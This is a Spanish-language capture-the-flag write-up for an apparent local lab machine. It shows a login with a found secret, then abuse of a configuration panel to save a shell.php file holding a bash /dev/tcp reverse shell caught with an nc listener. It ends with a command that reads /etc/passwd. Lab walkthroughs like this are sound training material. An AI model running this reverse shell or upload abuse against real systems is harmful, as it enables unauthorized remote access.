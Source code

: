 Sabiendo que en la primer url
```bash
http://172.17.0.2/
```

### Credenciales Encontradas
Tenemos una como especie de login que pide una clave secreta probaremos la siguiente cadena,
```bash
super_secure_password
```

Y tenemos acceso al panel principal en donde nos lleva a la siguiente pagina:
```bash
http://172.17.0.2/super_ultra_secure_page/
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
**Nota** Tenemos un panel que nos permite realizar una configuracion y nos permite guardarla con nombre y su extension, Asi que intentaremos aprovecharnos de esto para crear un archivo malicioso y lo aremos de la siguiente manera:

###### Configuration Identifier:
```bash
shell.php
```

###### Configuration Data:
```bash
#!/bin/bash

sh -i >& /dev/tcp/172.17.0.1/444 0>&1
```

**Nota** Nos ponemos en eschucah por el puerto:
```bash
nc -nlvp 444
```

### Ejecucion del Ataque
###### Execute Remote Configuration:
Ahora intentaremos ejecutara nuestro archivo malicioso:
```bash
shell.php
```

Ya realizadas las configuraciones, Vemos que nos deja guardarlo: y si recargamos la siguiente url aqui se cargan los archivos que configuremos:
```bash
http://172.17.0.2:7777/
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"
```
